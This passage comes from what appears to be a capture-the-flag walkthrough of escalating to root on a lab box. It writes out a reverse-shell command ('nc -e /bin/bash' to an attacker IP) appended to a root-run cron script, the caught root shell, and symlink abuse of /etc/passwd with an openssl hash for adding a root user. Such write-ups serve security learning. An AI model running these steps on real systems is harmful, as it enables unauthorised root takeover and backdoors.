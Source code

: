 #### /usr/bin/backup.sh

The script itself is being run by root every minute. If I can make it
writable, I can put more code in and have it run by root.

Create the link:



    giovanni@teacher:~/work/tmp$ ln -s /usr/bin/backup.sh 



Wait a minute:

![](/img/teacher-chmod.gif)

Now I can add a shell to the script:



    giovanni@teacher:~/work/tmp$ echo "nc -e /bin/bash 10.10.14.3 443" >> /usr/bin/backup.sh



Wait a minute, and get a shell:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.153.
    Ncat: Connection from 10.10.10.153:46014.
    id
    uid=0(root) gid=0(root) groups=0(root)



And `root.txt`:



    root@teacher:~# cat root.txt 
    4f3a83b4...



#### /etc/passwd

Rather than getting another callback, what if I just get access to
`/etc/passwd`:



    giovanni@teacher:~/work/tmp$ ln -s /etc/passwd



Now I can add myself as root user. First, create a hash:



    root@kali# openssl passwd -1 -salt xyz password
    $1$xyz$cEUv8aN9ehjhMXG/kSFnM1
